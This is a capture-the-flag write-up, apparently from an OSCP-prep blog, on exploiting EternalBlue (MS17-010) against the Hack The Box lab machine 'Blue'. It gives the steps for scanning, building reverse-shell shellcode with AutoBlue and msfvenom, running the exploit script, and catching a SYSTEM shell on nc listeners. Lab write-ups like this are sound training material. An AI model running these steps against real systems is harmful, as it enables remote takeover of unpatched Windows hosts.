 ```yaml
---
title: "Hack The Box - Blue"
date: 2020-01-08
tags: [oscp, htb, windows, eternalblue]
collection: oscp-htp-prep
published: true
layout: single
headline: "Exploiting Eternal Blue"
picture: /assets/htb-blue/machine_info.png
---
```


- [Machine Info](#machine-info)
- [Enumeration](#enumeration)
- [Initial Shell](#initial-shell)
  - [Clone the AutoBlue repository](#clone-the-autoblue-repository)
  - [Build shellcode](#build-shellcode)
  - [Setup listeners](#setup-listeners)
  - [Run the exploit](#run-the-exploit)
  - [Loot!](#loot)

---

## Machine Info

![](/assets/htb-blue/machine_info.png)

## Enumeration

Initial `nmap` scans using `autorecon` show a basic layout of SMB/RPC, with the SMB service returning our target OS as Windows 7 Pro.

```
Nmap scan report for 10.10.10.40
Host is up, received user-set (0.049s latency).
Scanned at 2020-01-08 10:21:05 EST for 155s
Not shown: 65526 closed ports
Reason: 65526 resets
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
```

The great thing about `autorecon` is that it will do deeper `nmap` scans for the ports it does find. When it ran a SMB vuln check on port 445, it found the following:

```
smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```

Looks like the machine is vulnerable to EternalBlue (MS17-010). While this attack vector would be cake with Metasploit, I'm going to go the non-MSF route, since I'm training for the OSCP exam.

---

## Initial Shell

### Clone the AutoBlue repository

Since we won't be using MSF for the easy win, we'll need to use some other exploits to more manually exploit the machine. The [AutoBlue repository](https://github.com/3ndG4me/AutoBlue-MS17-010) is perfect for this. Yes, it still has pre-built exploits, and automates the building of the shellcode for you. But it's still a much more manual process then Metasploit, where you literally just point and click.

To grab the repo, we can use the following command sequence. This will change our directory to `/opt`, clone the repo to `/opt/autoblue`, and navigate to the new directory.

```shell
cd /opt
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git autoblue
cd autoblue
```

Now that we have the tools we need, we can start assembling some shellcode.

### Build shellcode

Part of what makes `AutoBlue` so great is that it helps you to pre-build the shellcode with a built-in script.

From the `/opt/autoblue` directory, we need to `cd` to the `shellcode` directory, and run `./shell_prep.sh`. From there, simply enter the information requested. The script will feed the variables into `msfvenom` to generate the shellcode files. It will also merge them into a single file, which gives us a single bullet, that will handle both x86 and x64 targets.

![](/assets/htb-blue/shellcode_script.png)

You'll note that I decided to go with a stageless, non-meterpreter payload. This way I can simply run dual `nc` listeners to capture the returned shell later.

### Setup listeners

While `AutoBlue` does contain a script to setup and launch MSF listeners for you (via the `exploit/multi/handler` module), my experience with this script has been pretty poor. Since I'm running stageless and non-meterpreter, simple `nc` listeners will capture the shell just fine. Remember that since the x86 and x64 shellcode was merged, and targeted at different ports, we need to setup listeners on both ports 7500 and 7600.

We can run `nc -lvnp 7500` and `nc -lvnp 7600` to setup the listeners.

![](/assets/htb-blue/nc_listeners_norun.png)

### Run the exploit

Now that we have all the parts needed, we can run the actual exploit.

From the `/opt/autoblue` directory, we can run the `eternalblue_exploit7.py` script. The help text shows that we need to specify the target IP and shellcode file.

![](/assets/htb-blue/exploit_help.png)

We can run the command `python eternalblue_exploit7.py 10.10.10.40 shellcode/sc_all.bin` to trigger the exploit.

![](/assets/htb-blue/eternalblue_run.png)

Taking a look at the `nc` listeners, we get a shell back on port 7600 (via the x64 shellcode)

![](/assets/htb-blue/nc_listeners.png)

Running `whoami` reveals that we're already running as `nt authority\system`, so privlege escalation won't be needed.

![](/assets/htb-blue/whoami.png)

### Loot!

All that's left is to grab the flags on the system.

We know `root.txt` is in `C:\Users\Administrator\Desktop` like normal, so we can easily grab that.

![](/assets/htb-blue/root_proof.png)

However, since we came in as `nt authority\system`, we haven't had to touch any user accounts.

If we run `dir` on `C:\Users`, we can see the name of the user we're looking for is `haris`. Sure enough, the `user.txt` flag is in `C:\Users\haris\Desktop`.

![](/assets/htb-blue/user_dir.png)

![](/assets/htb-blue/user_proof.png)